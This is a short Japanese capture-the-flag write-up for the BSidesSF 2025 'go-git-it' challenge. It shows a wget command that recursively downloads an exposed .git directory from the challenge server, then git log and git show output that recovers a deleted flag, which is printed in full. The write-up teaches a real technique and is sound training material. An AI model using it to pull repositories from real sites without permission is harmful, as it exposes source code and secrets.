

#go-git-it

You didn't commit anything sensitive, right?
https://go-git-it-f7d62cbb.challenges.bsidessf.net/


問題のgitが絡んでくると思ったので以下のurlにアクセス

>.gitは違った

https://go-git-it-f7d62cbb.challenges.bsidessf.net/git/





## solution

.git/以下を全部ダウンロードしてくる


```
mkdir pwned_repo
cd pwned_repo

wget -r -np -nH --cut-dirs=1 --no-check-certificate https://go-git-it-f7d62cbb.challenges.bsidessf.net/git/
```

ログを見る


```
~/ctf/CTF-Writeup/BSidesSF_2025_CTF/go-git-it/repo$ git log
commit b55daeb6bd7d20f5a36c4d01021e310be8cec716 (HEAD -> main)
Author: McLovin <mclovin@bsidessf.ctf>
Date:   Sat Apr 12 02:46:32 2025 -0700

    removed sensitive information

commit d7701d5752f6782b4f81cf1b3d955a4e25348b6a
Author: McLovin <mclovin@bsidessf.ctf>
Date:   Sat Apr 12 02:46:05 2025 -0700

    initial commit
```

removed sensitive informationが怪しいのでgit showコマンドで見てみる

```
~/ctf/CTF-Writeup/BSidesSF_2025_CTF/go-git-it/repo$ git show b55daeb6bd7d20f5a36c4d01021e310be8cec716
commit b55daeb6bd7d20f5a36c4d01021e310be8cec716 (HEAD -> main)
Author: McLovin <mclovin@bsidessf.ctf>
Date:   Sat Apr 12 02:46:32 2025 -0700

    removed sensitive information

diff --git a/flag.html b/flag.html
deleted file mode 100644
index 61aa83d..0000000
--- a/flag.html
+++ /dev/null
@@ -1 +0,0 @@
-CTF{g0tt4_g!t_th4t}
```

## flag

`CTF{g0tt4_g!t_th4t}`